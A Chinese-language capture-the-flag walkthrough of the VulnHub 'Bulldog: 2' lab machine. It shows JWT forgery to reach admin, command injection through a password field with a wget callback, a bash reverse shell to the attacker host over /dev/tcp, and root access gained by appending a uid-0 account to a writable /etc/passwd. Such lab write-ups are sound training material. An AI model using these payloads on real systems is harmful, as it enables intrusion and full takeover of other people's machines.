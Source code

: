 # BULLDOG: 2

2025.02.15 https://www.vulnhub.com/entry/bulldog-2,246/

[video](https://www.bilibili.com/video/BV1FWATeHE2D/?spm_id_from=333.1387.0.0&vd_source=aed2f374c732513d2e535afafb1fd2ec)

## Ip

192.168.5.40

## Scan

```
PORT   STATE SERVICE
80/tcp open  http
```

只开放了一个 80 web 端口，进行相关浏览，发现一个用户列表的页面 http://192.168.5.40/users 同时发现了一个 json 的请求接口 http://192.168.5.40/users/getUsers?limit= 可以把所有的用户列表获取出来有 1 万多个用户。同时发现一个可以获取用户信息的 json 接口 http://192.168.5.40/users/profile/salaney 最后的值是用户名，将上述 getUsers 接口获得的用户名，进行遍历，但是权限都是 standard_user。

另外发现一个登陆页面： http://192.168.5.40/login 调用的认证接口是:

```
POST /users/authenticate HTTP/1.1
{
  "username": "eitobias",
  "password": "eitobias"
}
```

但是上面发现的用户名太多了，爆破不现实。

在找其他的接口吧，FindSometing 发现了一个注册接口 http://192.168.5.40/users/register 看看注册需要什么字段，查询下 js 源码：

```
prototype.onRegisterSubmit = function() {
var l = this
    , n = {
    name: this.name,
    email: this.email,
    username: this.username,
    password: this.password
};
```

自己构造上面的注册请求：

```
curl -XPOST http://192.168.5.40/users/register -H 'content-type:application/json' -d '{ "name":"test", "email":"test@test.com",  "username":"test", "password":"test"}'

{"success":true,"msg":"User registered"}
```

表示用户注册成功，使用 test:test 用户凭据登陆，登陆后，发现返回的数据：

```
{
  "success": true,
  "token": "JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwYXlsb2FkIjp7Im5hbWUiOiJ0ZXN0IiwiZW1haWwiOiJ0ZXN0QHRlc3QuY29tIiwidXNlcm5hbWUiOiJ0ZXN0IiwiYXV0aF9sZXZlbCI6InN0YW5kYXJkX3VzZXIifSwiaWF0IjoxNzM5NjEyODM4LCJleHAiOjE3NDAyMTc2Mzh9.l3bpZfElVpA_iv83MTeOeyA5sIm28yGsZMBViKHKaCg",
  "user": {
    "name": "test",
    "username": "test",
    "email": "test@test.com",
    "auth_level": "standard_user"
  }
}
```

发现使用了 JWT，并且 auth_level 为普通用户，尝试修改其为管理员权限，在源码中找到了对应的管理员权限的值为 master_admin_user 在浏览器中将本地存储空间中存储的值修改为：

```
{"name":"test","username":"test","email":"test@test.com","auth_level":"master_admin_user"}
```

同时在 https://jwt.io/ 中将 jwt 的值相应字段也进行修改：

```
JWT eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJwYXlsb2FkIjp7Im5hbWUiOiJ0ZXN0IiwiZW1haWwiOiJ0ZXN0QHRlc3QuY29tIiwidXNlcm5hbWUiOiJ0ZXN0IiwiYXV0aF9sZXZlbCI6Im1hc3Rlcl9hZG1pbl91c2VyIn0sImlhdCI6MTczOTYxMjgzOCwiZXhwIjoxNzQwMjE3NjM4fQ.XpfhMO48x_txPVCo8lotQame0ONAgr8ujmhilY-GOi0
```

这时在刷新页面右上角出现了 Admin 功能菜单，点击后出现了一个 Link+ Login 的功能页面，里面也要输入用户名和密码，可能存在 sql 注入，加上双引号，看看会出现什么：

```
POST /users/linkauthenticate HTTP/1.1
{
  "username": "11"",
  "password": "11""
}
```

看到报错提示解析 JSON 错误：/var/www/node/Bulldog-2-The-Reckoning/node_modules/raw-body/index.js:273:7，在 github 上找到了 Bulldog-2-The-Reckoning 的源码，这里发现可以命令执行 https://github.com/Frichetten/Bulldog-2-The-Reckoning/blob/master/routes/users.js 78 行:

```
router.post('/linkauthenticate', (req, res, next) => {
  const username = req.body.password;
  const password = req.body.password;

  exec(`linkplus -u ${username} -p ${password}`, (error, stdout, stderr) => {
```

需要构造特殊的 username 和 password 先进行个测试看看能不能访问到 kali：

```
curl -XPOST http://192.168.5.40/users/linkauthenticate -H 'content-type:application/json' -d '{"username":"test", "password":"$(wget http://192.168.5.3)"}'
```

在 kali 的 python web 服务上可以看到目标机器的访问：

```
192.168.5.40 - - [15/Feb/2025 18:12:20] "GET / HTTP/1.1" 200 -
192.168.5.40 - - [15/Feb/2025 18:12:20] "GET / HTTP/1.1" 200 -
```

这时就能执行反弹了：

```
curl -XPOST http://192.168.5.40/users/linkauthenticate -H 'content-type:application/json' -d '{"username":"test", "password":"`/bin/bash -c \"/bin/bash -i >& /dev/tcp/192.168.5.3/8888 0>&1\"`"}'
```

kali 监听 8888 端口，得到了反弹的连接：

```
node@bulldog2:/var/www/node/Bulldog-2-The-Reckoning$ id
id
uid=1001(node) gid=1005(node) groups=1005(node)
```

进行信息枚举，直接发现 /etc/passwd 可以全局写，所以直接添加一个超级权限级别用户：

```
openssl passwd -1 -salt new 123

echo 'admin1:$1$new$p7ptkEKU1HnaHpRtzNizS1:0:0:root:/root:/bin/bash' >> /etc/passwd
```

su 切换到 admin1 用户，直接得到了 root 权限：

```
root@bulldog2:~# cat flag.txt
Congratulations on completing this VM :D That wasn't so bad was it?

Let me know what you thought on twitter, I'm @frichette_n

I'm already working on another more challenging VM. Follow me for updates.
```
